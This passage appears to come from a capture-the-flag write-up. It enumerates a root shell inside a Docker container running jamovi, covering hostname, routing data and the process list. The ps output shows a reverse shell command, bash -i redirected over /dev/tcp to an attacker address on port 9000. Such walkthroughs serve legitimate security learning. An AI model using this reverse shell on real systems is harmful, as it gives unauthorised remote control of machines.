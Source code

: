 Given the system output, the obtained shell clearly looks like a docker container.

```bash
root@b06821bbda78:~# hostname
hostname
b06821bbda78

root@b06821bbda78:~# ip addr
ip addr
bash: ip: command not found

root@b06821bbda78:~# ifconfig
ifconfig
bash: ifconfig: command not found

root@b06821bbda78:~# cat /proc/net/fib_trie
cat /proc/net/fib_trie
Main:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.18.0.0/16 2 0 2
        +-- 172.18.0.0/30 2 0 2
           |-- 172.18.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.18.0.2
              /32 host LOCAL
        |-- 172.18.255.255
           /32 link BROADCAST
```

The IP is 172.18.0.2, and there's very limited tools installed. The process list shows only jamovi stuff.

```bash
root@b06821bbda78:~# ps auxww
ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 101704  6048 ?        Ss   04:58   0:00 /bin/bash /usr/bin/jamovi-server 41337 --if=*
root          11  0.1  3.1 866160 63168 ?        Sl   04:58   0:08 python3 -u -m jamovi.server 41337 --if=*
root          28  0.0  5.4 786600 108680 ?       Sl   05:05   0:03 /usr/lib/jamovi/bin/jamovi-engine --con=ipc:///tmp/tmpbes1_ypx/conn-0 --path=/tmp/tmpdxdtpz45
root          30  0.0  2.9 255852 59340 ?        Sl   05:05   0:01 /usr/lib/jamovi/bin/jamovi-engine --con=ipc:///tmp/tmpbes1_ypx/conn-1 --path=/tmp/tmpdxdtpz45
root          32  0.0  2.9 255852 59480 ?        Sl   05:05   0:01 /usr/lib/jamovi/bin/jamovi-engine --con=ipc:///tmp/tmpbes1_ypx/conn-2 --path=/tmp/tmpdxdtpz45
root          64  0.0  0.2  90072  5996 ?        S    06:08   0:00 sh -c bash -c 'bash -i >& /dev/tcp/10.10.14.7/9000 0>&1'
root          65  0.0  0.3 101704  7264 ?        S    06:08   0:00 bash -c bash -i >& /dev/tcp/10.10.14.7/9000 0>&1
root          66  0.0  0.3 101880  7748 ?        S    06:08   0:00 bash -i
root          88  0.0  0.3 115908  7188 ?        R    06:16   0:00 ps auxww
```
